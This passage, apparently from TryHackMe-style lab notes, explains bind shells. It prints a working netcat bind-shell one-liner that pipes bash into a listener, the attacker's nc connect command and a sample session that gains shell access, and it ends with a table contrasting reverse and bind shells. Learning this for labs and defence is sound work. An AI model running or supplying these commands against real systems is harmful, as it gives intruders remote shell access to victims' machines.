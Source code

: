 On attacker machine, run:
```
nc -nv TARGET_IP 8080
```
### Breakdown:
- `nc` → Start Netcat.  
- `-n` → Don’t use DNS (faster).  
- `-v` → Verbose (show connection info).  
- `TARGET_IP` → Victim’s IP address.  
- `8080` → Port where victim is listening.  

---

# 🖥️ Example Session

Victim starts bind shell:
```
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Attacker connects:
```
attacker@kali:$ nc -nv 10.10.13.37 8080
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:$
```
✔ Now attacker has shell access to victim system.  



# 📊 Reverse Shell vs Bind Shell (Comparison)

| Feature              | Reverse Shell                               | Bind Shell                             |
|----------------------|---------------------------------------------|-----------------------------------------|
| **Who connects?**    | Victim connects back to attacker.           | Attacker connects to victim.            |
| **Firewall bypass**  | Easier (looks like normal outgoing traffic).| Harder (open port is more detectable).  |
| **Use case**         | When victim can make outgoing connections.  | When victim cannot make outgoing connections. |
| **Popularity**       | Very popular.                               | Less popular.                           |



# ⚡ Key Points
- Bind Shell = Victim opens port and waits for attacker.  
- Attacker connects and gains remote shell.  
- Easier to detect than reverse shell.  
- Useful when victim blocks outgoing traffic.
---
# 🎧 Tools for Listening to Reverse Shells
